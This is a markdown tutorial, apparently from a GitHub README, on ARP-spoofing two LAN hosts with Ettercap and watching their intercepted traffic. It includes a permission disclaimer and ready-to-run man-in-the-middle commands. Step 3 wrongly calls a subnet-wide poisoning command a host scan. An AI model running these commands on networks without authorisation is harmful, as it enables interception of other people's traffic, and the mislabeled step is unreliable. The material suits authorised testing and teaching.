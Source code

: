 ### Disclaimer
This tutorial is for educational purposes only. Perform ARP spoofing attacks only on networks you own or have explicit permission to test. Unauthorized use of ARP spoofing can be illegal and unethical.

### Prerequisites
Ettercap Installed: Ensure Ettercap is installed on your system (refer to the Installation section).
Network Interface: Identify the network interface you'll use (e.g., eth0 or wlan0).
### Steps
- 1. Identify Network Interface
First, determine the network interface you will use. You can list network interfaces using the ifconfig or ip command:

```bash
ifconfig
```
or

```bash
ip a
```
Note the interface name (e.g., eth0 or wlan0).

- 2. Launch Ettercap
Start Ettercap in graphical mode:

```bash
sudo ettercap -G
```
or in text mode (if you prefer):

```bash
sudo ettercap -T -i eth0
```
- 3. Scan for Hosts
In graphical mode:

Go to Hosts > Scan for hosts.
Wait for the scan to complete.
In text mode:

```bash
sudo ettercap -T -i eth0 -M arp:remote // //
```
This command scans the entire network connected to eth0.

- 4. Add Hosts to Target List
In graphical mode:

Go to Hosts > Host list.
Select the target hosts you want to ARP spoof.
Add the first host to Target 1.
Add the second host to Target 2.
In text mode:

Identify the IP addresses of the target hosts from the scan results. Then, use their IP addresses in the following command:

```bash
sudo ettercap -T -M arp:remote /<target1_IP>/ /<target2_IP>/
```
Replace <target1_IP> and <target2_IP> with the actual IP addresses of the target hosts.

- 5. Start ARP Spoofing
In graphical mode:

Go to Mitm > ARP poisoning.
Select Sniff remote connections.
In text mode:

```bash
sudo ettercap -T -M arp:remote /<target1_IP>/ /<target2_IP>/
```
- 6. Monitor Traffic
In graphical mode:

Go to View > Connections to monitor intercepted connections.
Select a connection to view detailed information.
In text mode:

Ettercap will display intercepted traffic in the terminal.

Example Command in Text Mode
Here's a complete command sequence for ARP spoofing between two hosts with IP addresses 192.168.1.5 and 192.168.1.10 on interface eth0:

```bash
sudo ettercap -T -i eth0 -M arp:remote /192.168.1.5/ /192.168.1.10/
```
Stopping the Attack
To stop the attack, press Ctrl+C in the terminal or close the Ettercap graphical interface.

